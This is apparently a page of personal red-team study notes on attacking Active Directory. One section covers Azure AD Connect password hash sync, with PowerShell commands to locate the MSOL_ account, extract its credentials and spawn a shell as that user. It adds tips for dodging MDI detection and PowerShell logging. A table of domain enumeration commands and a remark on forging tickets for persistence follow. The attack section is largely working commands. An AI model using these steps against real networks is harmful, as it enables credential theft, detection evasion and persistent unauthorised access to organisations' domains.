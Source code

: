 ## Attacking PHS

- will not get detected by MDI if you DCSync using the MSOL_ user, as this user is typically on the exclusion list of MDI due to its frequent DCSync

**Get User and Extract Creds**

```powershell
# PowerView
Get-DomainUser -Identity "MSOL_*" -Domain 0xd4y.local 

# AD Module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server 0xd4y.local -Properties * | select SamAccountName,Description | fl

# Source ADConnect PS Script
. .\adconnect.ps1

# Extract creds of MSOL_<ID> user
ADConnect

# Run CMD instance as MSOL_<ID> user
runas /user:0xd4y.local\MSOL_<ID> /netonly cmd
```

- note `adconnect.ps1` runs `powershell.exe` , so verbose logs are present
    - ensure to modify this script’s code and run within `Invisi-Shell` to potentially bypass these logs

# Enumeration

## General

- recommended to use AD PowerShell Module
    - signed by MS and therefore works in CLM
    - less suspicious
- can use SharpView (PowerView written in C#)
    - cannot use pipes

| Command | Description |
| --- | --- |
| (Get-DomainPolicyData).systemaccess | Use to get policy for tickets |
| Get-DomainGPOComputerLocalGroupMapping | Get users that are in a local group for specified machine (use -Identity to specify machine) |
| Get-DomainObjectACL -ResolveGUIDs | Enumerate ACL for specific object |
| Get-ADGroup -Filter * -searchbase "OU=Mgmt,DC=us,DC=techcorp,DC=local" -Properties * | Get members in group in a specific OU |
| net view \\some_server.local | Enumerate shares on some_server |
| (Get-ADForest).Domains| %{Get-ADDomain -Server $_}|select name, domainsid | Get SID of all child forests and root forest in current forest |
| Get-DnsServerZone -ZoneName some_forest.local |fl * | Get IP addresses of DCs in target (note you can also ping the DCs to find the IP if you already know the DC names) |
| $env:UserDNSDomain | Get current forest name |
- ensure that you do not breach ticket policies when forging/modifying a ticket for persistence!
